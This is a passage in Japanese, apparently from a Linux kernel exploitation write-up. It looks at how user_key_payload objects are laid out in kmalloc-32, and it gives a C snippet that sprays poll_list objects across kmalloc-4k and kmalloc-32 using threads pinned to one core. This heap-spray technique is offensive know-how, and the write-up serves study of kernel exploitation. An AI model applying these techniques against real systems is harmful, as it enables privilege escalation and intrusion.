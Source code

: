 ![user_key_payload in kmalloc-32](cj-heap.png)

ところで、`user_key_payload`が連続していないことが見て取れますね。きっと、`CONFIG_SLAB_FREELIST_RANDOMIZE`らへんが有効化されているのでしょう。
続いて、`poll_list`を`kmalloc-4k`と`kmalloc-32`にスプレーしていきます。

```alloc_poll_list.c
  assign_to_core(0);
  for (int ix = 0; ix != NUM_POLLLIST_ALLOC; ++ix) {
    if(pthread_create(&threads[ix], NULL, alloc_poll_list, &just_fd) != 0) errExit("pthread_create");
  }
```

![search for poll_list](search-polllist.png)
